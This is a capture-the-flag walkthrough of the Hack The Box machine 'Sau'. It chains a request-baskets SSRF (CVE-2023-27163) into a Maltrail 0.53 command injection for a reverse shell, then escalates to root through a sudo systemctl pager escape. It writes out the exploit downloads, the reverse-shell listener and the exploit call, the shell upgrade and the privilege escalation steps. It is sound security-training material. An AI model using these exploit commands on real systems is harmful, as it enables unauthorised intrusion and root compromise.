






# SAU - LINUX - EASY


## Enumeration
We ran a base nmap scan and saw that we had 4 ports open: 22,80,8338,55555. So then I went ahead and ran a nmap script and version scan to try and get some more information:

```console
toasty@parrot$ sudo nmap -sV -sC -p22,80,8338,55555  10.10.11.224
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-21 14:01 BST
Nmap scan report for 10.10.11.224
Host is up (0.030s latency).

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 21 Aug 2023 13:01:38 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 21 Aug 2023 13:01:13 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 21 Aug 2023 13:01:13 GMT
|_    Content-Length: 0
```

We can see that HTTP traffic appears filtered, but on port 55555 we are seeing something interesting.

## Request Baskets
Visiting `http://10.10.11.224:55555/` we get the following page:



This page will let us create a 'basket' and send requests to that endpoint to inspect the traffic. 
The software itself is called [request-baskets](https://github.com/darklynx/request-baskets) and the page appears to be running version 1.2.1
Let's make a test basket to test this out:


### Basket Test
First, we create a test basket named toasty.



Our basket is created and we see that we have an "empty" basket that we need to send requests to:



Now we send a request to the specified endpoint using `curl` and we can see that it comes into our basket:




A cool program, but now we need to break our way in.

## CVE-2023-27163
We know that we are running request-baskets 1.2.1 and a quick google search yields us [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163).
This CVE is a SSRF vuln that will allow us to access sensitive and network information via an api. We can use the POC by [entr0pie](https://github.com/entr0pie/CVE-2023-27163).

So before we go into this, let's look at the example. In entr0pie's example they are showing how you could use this POC for a server that is hosting request-baskets and a Flask server. The Flask server only accepts connections from localhost, so you can use the POC to redirect traffic from the requests-basket to the Flask server to get information.

From our previous nmap scan, we saw that port 80 was filtered. If we use the POC to try and redirect our traffic to port 80, maybe we can get some information on the site/tool that is being hosted there.

## Redirect to 80 
```console
toasty@parrot$ wget https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/main/CVE-2023-27163.sh
toasty@parrot$ ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "oztiqs" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/oztiqs now makes the server request to http://127.0.0.1:80.
> Authorization: KNjwQSGp9FAgjRnLqK7zUkRCHU69qPWX-1sjNixxl3d-
toasty@parrot$ curl http://10.10.11.224:55555/oztiqs
.... SNIP
            </div>
            <ul id="link_container">
                <li class="header-li"><a class="header-a" href="https://github.com/stamparm/maltrail/blob/master/README.md" id="documentation_link" target="_blank">Documentation</a></li>
                <li class="header-li link-splitter">|</li>
                <li class="header-li"><a class="header-a" href="https://github.com/stamparm/maltrail/wiki" id="wiki_link" target="_blank">Wiki</a></li>
.... SNIP
        <div class="bottom noselect">Powered by <b>M</b>altrail (v<b>0.53</b>)</div>
.... SNIP
```

From our curl request we can seet that port 80 is hosting a sit for version 0.53 of [Maltrail](https://github.com/stamparm/maltrail). Maltrail is a malicious traffic detection system.

## Maltrail Exploit and Setup
Googling for an exploit, we find that the login page of v0.53 has a [command injection vulnerability](https://github.com/spookier/Maltrail-v0.53-Exploit).

Now currently our SSRF exploit doesn't redirect us to a login page, just the default page for Maltrail. We will need to rerun our POC script and find the login page, there is more methodical ways to do this but I took a pretty safe guess that it would be `/login` and then confirmed with a `curl`.

```console
toasty@parrot$ ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80/login
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "linjty" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/linjty now makes the server request to http://127.0.0.1:80/login.
> Authorization: SbnYpwd-1Po8Mi4jF1HBupnVsWsxyDJoR6-ag_uQ8zNv
toasty@parrot$ curl http://10.10.11.224:55555/linjty
Login failed
```

The login failed message lets us know that we hit the login page.

## Getting Shell
### Listener
We will need two separate terminals to run this maltrail exploit. On the first one let's set up a nc listener on 9001.
```console
toasty@parrot$ nc -lvnp 9001
listening on [any] 9001 ...
```
### Run exploit
Now in our second terminal session we can run our exploit using our listener and our previously set up ssrf redirect.
```console
toasty@parrot$ wget https://github.com/spookier/Maltrail-v0.53-Exploit/raw/main/exploit.py
toasty@parrot$ python3 exploit.py 10.10.14.231 9001 http://10.10.11.224:55555/linjty

```

### Listener pt.2
Back in our listener we should see the connection and now have a temporary shell on the target.
```console
toasty@parrot$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.224] 54256
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```
## User Flag
Now just navigate to the home directory for the user flag:
```console
$ cat /home/puma/user.txt
cat /home/puma/user.txt
1829a***************************
```

# Root Flag

## Upgrading Shell
Now that we have the user flag let's upgrade to a fully interactive shell. I like to use [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys).

### Method Used for Full TTY
```text
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

## Sudo Powers?
Depending on the box I will manually enumerate some things or run a linpeas script. But either way one of the first things that gets checked is sudo powers. We check `sudo -l` to see if we have any powers to run sudo as the current user:
```console
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

We do have permission to run `/usr/bin/systemctl status trail.service` as sudo with no password! We can find out ways to bypass security using [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/).

## Root Shell
What I can see from that page is that the `systemctl` command will invoke the default pager (usually less) and you can spawn an interactive shell from `less`. Since we are running this as sudo, the pager is started as root, and spawning the shell out of `less` will get us in as root.



## Root Flag 
Now that we have root access we can easily go grab our root flag.

```console
# ls /root
go  root.txt
# cat /root.txt
cat: /root.txt: No such file or directory
# cat /root/root.txt
96c467**************************
```
